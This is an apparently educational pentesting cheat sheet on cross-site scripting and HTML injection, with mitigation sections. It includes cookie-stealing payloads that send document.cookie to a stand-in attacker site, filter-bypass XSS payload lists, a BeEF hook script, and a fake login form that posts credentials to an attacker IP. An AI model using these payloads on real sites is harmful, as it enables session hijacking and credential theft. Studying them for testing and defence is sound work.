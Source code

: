 # HTML | XSS

## XSS

{% hint style="info" %}
Cross-Site Scripting (XSS) attacks are a type of **injection**, in which **malicious scripts** are injected into otherwise benign and trusted websites. XSS attacks occur when an attacker uses a web application to send **malicious code**, generally in the form of a browser side script, to a different end user.
{% endhint %}

### Types

#### **Stored XSS**

{% hint style="info" %}
The injected script is permanently stored on the target servers, such as in a database, in a **message** forum, visitor log, **comment** **field**, etc. The victim then retrieves the malicious script from the server when it requests the stored information.
{% endhint %}

#### **Reflected XSS**

{% hint style="info" %}
Reflected attacks are those where the injected script is **reflected** off the web server, such as in an **error message**, **search result**, or any other response that includes some or all of the input sent to the server as part of the request.
{% endhint %}

**Explanations**

Let’s say a web page has a search box, which displays the search text alongside the search results as follows : **`Your search results for “searchtext”:`**

The web page also uses the **HTTP GET request method** to embed the user’s input data to the query string of the URL as follows: `https://example.com/action.php?query=searchtext`

If the search box is **susceptible to a non-persistent XSS attack**, a cybercriminal can send a malicious link to an unsuspecting user and exploit the vulnerability. **This is how the script-injected link could look like:**

```
https://example.com/action.php?query=<script>document.location=’https://xssattacksite.com/log.php?c=’ + encodeURIComponent(document.cookie)</script>
```

#### **DOM XSS**

{% hint style="info" %}
DOM Based XSS (or as it is called in some texts, “type-0 XSS”) is an XSS attack wherein the **attack payload is executed as a result of modifying the DOM “environment”** in the victim’s browser used by the original client side script, so that the client side code runs in an “**unexpected**” manner.&#x20;

That is, the page itself (the HTTP response that is) does not change, but the client side code contained in the page executes differently due to the malicious modifications that have occurred in the DOM environment.
{% endhint %}

Let’s take the following example of a web page that utilizes JavaScript to manipulate a DOM element:

```javascript
let searchText = document.getElementById(‘searchText’).value;
let resultsData = document.getElementById(‘resultsData’);
resultsData.innerHTML = ‘Your search results for: ‘ + searchText;
```

As you can see on the code snippet above, the **value** from a **user input field** is grabbed and **appended to an element within the web page’s HTML**. If an attacker can control this value, they can craft a devious value that forces their own code to be executed.

Here is an example :

`Your search results for: “<script>document.location=’https://xssattacksite.com/log.php?c=’ + document.cookie</script>”`

### Payloads

{% embed url="https://portswigger.net/web-security/cross-site-scripting/cheat-sheet" %}
XSS cheatsheet
{% endembed %}

{% embed url="https://github.com/payloadbox/xss-payload-list/blob/master/Intruder/xss-payload-list.txt" %}
XSS payloads
{% endembed %}

**Examples**

```html
<!-- put this into a form field or search bar-->
<img src=q onError=prompt('!XSS!'); />
<script>alert("!XSS!")</script>
<script>print()</script>

<!-- encoded -->
%uff1cscript%uff1eprompt("!XSS!");%uff1c/script%uff1e&
%253Cscript%253Eprint()%253C%252Fscript%253E
%253Cimg%2520src%253Dq%2520onError%253Dalert(%2522XSS%2522)%253B%2520%252F%253E

<!-- Bypassing First Filter -->
<svg/onload=alert(1)>
<svg//////onload=alert(1)>
<svg id=x;onload=alert(1)>
<svg id=`x`onload=alert(1)>
<svg%09onload=alert(1)>
<svg onload%09=alert(1)>
<svg%09onload%20=alert(1)>
<svg onload%09%20%28%2C%3B=alert(1)>
<svg onload+0B=alert(1)>
<script>\u0061lert(1)</script>
<script>\u0061\u006c\u0065\u0072\u0074(1)</script>
<img src=x onerror="\u0061lert"/>
<img src=x onerror="eval('\141lert(1)')"/>
<img src=x onerror="eval('\x61lert(1)')"/>

 <!-- Javascript Keyword is blocked-->
<object data="JaVaScRiPt:alert(1)">
<object data="javascript&colon;alert(1)">
<object data="java  
    script:alert(1)">
<object data="javascript&#x003A;alert(1)">
<object data="javascript&#58;alert(1)">
<object data="&#x6A;avascript;alert(1)">
<object data="&#x6A;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;74;&#x3A;alert(1)">
<object data="data:text/html,<script>alert(1)</script>">
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">

```

### N.B.

#### ~~alert()~~ print()

Use **print** instead of alert

{% embed url="https://portswigger.net/research/alert-is-dead-long-live-print" %}

### Beef

#### Install & Config

```bash
git clone https://github.com/beefproject/beef.git
./install
nano config.yaml # change username and password
./beef
```

#### Control

```html
<!-- insert this into xss vulnerable field : -->
<script src="http://ip_hacker:3000/hook.js"></script>

<!-- use waf bypass -->
```

### Mitigations

* Developers should implement a **whitelist** of allowable inputs, and if not possible then there should be some input validations and the data entered by the user must be filtered as much as possible.
* Output **encoding** is the most reliable solution to combat XSS i.e. it takes up the script code and thus converts it into the plain text.
* A **WAF** _(Web Application Firewall)_ should be implemented as it somewhere protects the application from XSS attacks.
* Use of **HTTPOnly Flags** on the **Cookies**.
* The developers can use **Content Security Policy (CSP)** to reduce the severity of any XSS vulnerabilities.

## HTML Injection

### Check

* **Form fields**
  * Exploit with _BurpSuite_ using URL Encode

### Payloads

```html
<!-- URL ENCODE THESE & put them in a form field -->
<b>test</b>
<a href="https://google.com">test</a>
<img src= "https://www.ignitetechnologies.in/img/logo-blue-white.png">

<!-- add a form field to website -->
<div style="position: absolute; left: 0px; top: 0px; width: 1900px; height: 1300px; z-index:1000; background-color:white; padding:1em;">Please login with valid 
credentials:<br><form name="login" action="http://192.168.0.7:4444/login.htm">
<table><tr><td>Username:</td><td><input type="text" name="username"/></td></tr><tr><td>Password:</td>
<td><input type="text" name="password"/></td></tr><tr>
<td colspan=2 align=center><input type="submit" value="Login"/></td></tr>
</table></form>
```

### Mitigations

* The developer should set up his HTML script which filters the meta-characters from user inputs.
* The developer should implement functions to validate the user inputs such that they do not contain any specific tag that can lead to **virtual defacement.**
